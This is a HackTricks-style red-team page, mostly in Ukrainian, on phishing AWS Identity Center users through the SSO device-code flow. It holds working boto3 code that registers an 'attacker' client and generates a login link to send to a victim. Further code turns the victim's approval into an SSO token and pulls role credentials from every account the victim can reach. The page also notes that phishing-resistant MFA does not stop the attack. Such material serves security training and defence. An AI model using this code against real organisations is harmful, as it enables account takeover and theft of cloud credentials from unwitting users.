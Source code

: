 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Спочатку запропоновано в [**цьому блозі**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), можливо надіслати **посилання** користувачу, який використовує AWS SSO, що якщо **користувач прийме**, зловмисник зможе отримати **токен для видавання себе за користувача** та отримати доступ до всіх ролей, до яких користувач має доступ у **Identity Center**.

Для виконання цієї атаки необхідні такі умови:

* Жертва повинна використовувати **Identity Center**
* Зловмисник повинен знати **субдомен**, який використовує жертва `<victimsub>.awsapps.com/start`

Лише з цією інформацією **зловмисник зможе надіслати посилання користувачу**, яке, якщо **прийняте**, надасть **зловмиснику доступ до облікового запису AWS** користувача.

### Attack

1. **Finding the subdomain**

Першим кроком зловмисника є виявлення субдомену, який використовує компанія жертви в їх Identity Center. Це можна зробити за допомогою **OSINT** або **вгадування + BF**, оскільки більшість компаній використовуватимуть свою назву або варіацію своєї назви тут.

З цією інформацією можливо отримати регіон, в якому було налаштовано Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Згенеруйте посилання для жертви та надішліть його**

Запустіть наступний код, щоб згенерувати посилання для входу в AWS SSO, щоб жертва могла аутентифікуватися.\
Для демонстрації запустіть цей код у консолі Python і не виходьте з неї, оскільки пізніше вам знадобляться деякі об'єкти для отримання токена:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Відправте згенероване посилання жертві, використовуючи свої чудові навички соціальної інженерії!

3. **Чекайте, поки жертва його прийме**

Якщо жертва **вже увійшла в AWS**, їй просто потрібно буде прийняти надання дозволів, якщо ні, їй потрібно буде **увійти в систему, а потім прийняти надання дозволів**.\
Ось як виглядає запит сьогодні:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Отримати токен доступу SSO**

Якщо жертва прийняла запит, запустіть цей код, щоб **згенерувати токен SSO, видаючи себе за користувача**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Токен доступу SSO є **дійсним протягом 8 годин**.

5. **Видати себе за користувача**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Фішинг непіддатливого MFA

Цікаво знати, що попередня атака **працює навіть якщо використовується "непіддатливе MFA" (webAuth)**. Це тому, що попередній **робочий процес ніколи не залишає використаний домен OAuth**. На відміну від інших атак фішингу, де користувачеві потрібно підмінити домен входу, у випадку, коли робочий процес коду пристрою підготовлений так, що **код відомий пристрою**, і користувач може увійти навіть на іншій машині. Якщо підтвердити запит, пристрій, просто **знаючи початковий код**, зможе **отримати облікові дані** для користувача.

Для отримання додаткової інформації [**перегляньте цей пост**](https://mjg59.dreamwidth.org/62175.html).

### Автоматичні інструменти

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## Посилання

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
